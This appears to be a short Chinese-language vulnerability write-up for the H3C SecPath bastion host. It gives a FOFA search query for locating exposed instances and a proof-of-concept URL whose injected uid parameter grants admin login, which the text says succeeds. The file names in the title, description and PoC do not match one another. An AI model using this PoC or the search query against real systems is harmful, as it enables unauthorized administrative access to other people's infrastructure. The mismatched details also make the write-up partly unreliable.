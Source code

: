 # H3C SecParh堡垒机 data_provider.php 远程命令执行漏洞

## 漏洞描述

H3C SecParh堡垒机 get_detail_view.php 存在任意用户登录漏洞

与齐治堡垒机出现的漏洞相似

## 漏洞影响

<a-checkbox checked>H3C SecParh堡垒机</a-checkbox></br>

## FOFA

<a-checkbox checked>app="H3C-SecPath-运维审计系统" && body="2018"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/image-20210616132951212.png)



POC验证的Url为

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



![img](../../../.vuepress/public/img/h3c-1.png)



成功获取admin权限



## 